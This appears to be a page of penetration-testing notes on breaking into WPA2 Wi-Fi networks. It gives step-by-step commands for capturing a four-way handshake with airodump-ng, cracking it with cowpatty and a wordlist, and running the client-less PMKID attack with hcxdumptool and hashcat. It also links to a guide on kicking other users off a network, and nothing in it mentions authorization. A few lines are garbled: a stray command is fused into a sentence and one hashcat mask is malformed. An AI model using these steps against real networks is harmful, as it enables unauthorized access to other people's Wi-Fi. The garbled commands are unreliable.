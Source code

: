 # Wifi

There are quite a few different security mechanism on wifi. And each of them require a different tactic. This article outlines the different strategies quite well. [http://null-byte.wonderhowto.com/how-to/hack-wi-fi-selecting-good-wi-fi-hacking-strategy-0162526/](http://null-byte.wonderhowto.com/how-to/hack-wi-fi-selecting-good-wi-fi-hacking-strategy-0162526/)

This is a great guide to the many different ways to hack wifi.

### Checking what networks are available

`sudo iwlist wlan0 scanning` - scans for wifis

### Hacking WPA2-wifis Using airmon-ng and cowpatty

What we are going to to here it basically just to record the 4-way handshake and then run a dictionary attack on it. The good part about this strategy is that you won't have to interfere to much with the network and thereby risk of taking down their wifi. The bad part is that if you run a dictionary attack there is always the possibility that the password just isn't in the list.

1. Start airmon-ng

   * `airmon-ng start wlan0`
   * This puts the network card in monitoring mode.
   * This will create a network interface that you can use to monitor wifi-action. This interface is usually called mon0 or something like that. You see the name when you run the command.

2. Run airodump to see what is passing through the air

   * Now we want to see what access points are available to us. 
   * `airodump-ng -i mon0`
   * This would output something like this:

```
CH 13 ][ Elapsed: 6 s ]

BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

E8:DE:27:31:15:EE  -62       40       54    0  11  54e  WPA2 CCMP   PSK  myrouter
A7:B6:68:D4:1D:91  -80        7        0    0  11  54e  WPA2 CCMP   PSK  DKT_D24D81
B4:EE:B4:80:76:72  -84        5        0    0   6  54e  WPA2 CCMP   PSK  arrisNetwork

BSSID       STATION            PWR   Rate    Lost    Frames Probe

E8:DE:27:31:15:EE  D8:A2:5E:8E:41:75  -57    0e- 1    537     14
```

So what is all this?  
`BSSID` - This is the mac-address of the access point.  
`PWR` - Signal strength. The higher \(closer to 0\) the strength the stronger is the signal. In the example above it is myrouter that has the strongest signal.  
`Beacon` - This is kind of like a packet that the AP sends out periodically. The beacon contains information about the network. It contains the SSID, timestamp, beacon interval. If you are curious you can just analyze the beacons in wireshark after you have captured them.  
`#Data` - The number of data-packets that has been sent.  
`#/s` - Number of data-packets per second.  
`CH` - Channel  
`MB` - Maximum speed the AP can handle.  
`ENC` - Encryption type  
`CIPHER` - One of CCMP, WRAP, TKIP, WEP, WEP40, or WEP104. Not mandatory, but TKIP is typically used with WPA and CCMP is typically used with WPA2.  
`PSK` - The authentication protocol used. One of MGT \(WPA/WPA2 using a separate authentication server\(RADIUS\)\), SKA \(shared key for WEP\), PSK \(pre-shared key for WPA/WPA2\), or OPN \(open for WEP\).  
`ESSID` - The name of the network

Then we have another section of information.  
`Station` - MAC address of each associated station or stations searching for an AP to connect with. Clients not currently associated with an AP have a BSSID of “\(not associated\)”. So yeah, this basically means that we can see what devices are looking for APs. This can be useful if we want to create an evil twin or something like that.

1. Find the network you want to access.

   * `airodump-ng --bssid A7:B6:68:D4:1D:91 -c 11 -w cowpatty mon0`
   * So this command will record or traffic from the device with that specific MAC-address. -c defines the channel. and `-w cowpatty` means that we are going to save the packet capture with that name. 
     Now we just have to wait for a user to connect to that network. And when he/she does we will record that handshake.
     We know that we have recorded a handshake when this appears
     `CH 11 ][ Elapsed: 19 hours 52 mins ][ 2016-05-19 17:14 ][ WPA handshake: A7:B6:68:D4:1D:91`
     Now we can exit airodump, and we can see that we have a cap-file with the name cowpatty-01.cap. That is our packet-capture, and you can open it and study it in wireshark if you like.

2. Crack the password.

3. Now that we have the handshake recorded we can start to crack it. We can do that by using the program cowpatty.

4. `cowpatty -f /usr/share/wordlists/rockyou.txt -r cowpatty-01.cap -s DKT_D24D81`  
   Then we just hope for the best.

## PMKID

The RSN IE is an optional field that can be found in 802.11 management frames. One of the RSN capabilities is the PMKID.

The PMKID is computed by using HMAC-SHA1 where the key is the PMK and the data part is the concatenation of a fixed string label "PMK Name", the access point's MAC address and the station's MAC address.

Since the PMK is the same as in a regular EAPOL 4-way handshake this is an ideal attacking vector.

We receive all the data we need in the first EAPOL frame from the AP.

```
PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
```

**Note: **The following method does not change the time in takes to crack the password, it simply makes the method to obtain the password much easier. Further details are in the hashcat link below.

Why Easier:

* No more regular users required - because the attacker directly communicates with the AP \(aka "client-less" attack\)

* No more waiting for a complete 4-way handshake between the regular user and the AP

* No more eventual retransmissions of EAPOL frames \(which can lead to uncrackable results\)

* No more eventual invalid passwords sent by the regular user

* No more lost EAPOL frames when the regular user or the AP is too far away from the attacker
* No more fixing of nonce and replaycounter values required \(resulting in slightly higher speeds\)
* No more special output format \(pcap, hccapx, etc.\) - final data will appear as regular hex encoded stringairmon-ng check kill

1.\) Run hcxdumptool to request the PMKID from the AP and to dump the received frame to a file \(in pcapng format\).

```
/opt/hcxdumptool/hcxdumptool -o Target.pcapng -i wlan0 --filterlist=TargetBSSID.txt --filtermode=2
```

The TargetSSID.txt files contains the MAC addresses \(BSSIDs\) of the target without colons. Also there is an indicator at the bottom of the interface that states "pwned." This will indicate the number of hashes obtained. It is recommended to have this run for at least 10 minutes.

```
/opt/hcxtools/hcxpcaptool -z Target.16800 Target.pcapng
```

2.\) Run hcxpcaptool to convert the captured data from pcapng format to a hash format accepted by hashcat.

```
 ./hcxpcaptool -z  Target.16800 /opt/hcxdumptool/Target.pcapng
```

This takes in the in capture file, parses it and outputs the format \(16800\) in one that hashcat can interpret.

3.\) Run hashcat to crack it.

```
./hashcat -m 16800 Target.16800 -a 3 -w 3 '?l?l?l?l?l?lt!
```

The above is obviously a simplified version as this can be vastly tailored by information obtained from the target

## Example hash

```
2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf0e761f4*ed487162465a774bfba60eb603a39f3a
```

The columns are the following \(all hex encoded\):

* PMKID

* MAC AP

* MAC Station

* ESSID

## Further digging

If you want to analyze your pcap for the RSN PMKID, the filter for wirshark is

```
wlan.rsn.ie.pmkid
```

## Notes

Depending how long you have hcxpcaptool running, you may obtain multiple differing hashes for a single targeted AP. This is because it will keep sending messages and the slight modifications are due to the replay counter and nonce changes in each subsequent submission. The different hashes will all crack to the same password at the end of the day.

## More Info / References

Kicking other people off the network to capture handshakes faster:  
[http://www.aircrack-ng.org/doku.php?id=newbie\_guide](http://www.aircrack-ng.org/doku.php?id=newbie_guide)

[http://lewiscomputerhowto.blogspot.cl/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html](http://lewiscomputerhowto.blogspot.cl/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html)

[http://radixcode.com/hackcrack-wifi-password-2015-step-step-tutorial/](http://radixcode.com/hackcrack-wifi-password-2015-step-step-tutorial/)

[https://hashcat.net/forum/thread-7717.html](https://hashcat.net/forum/thread-7717.html)

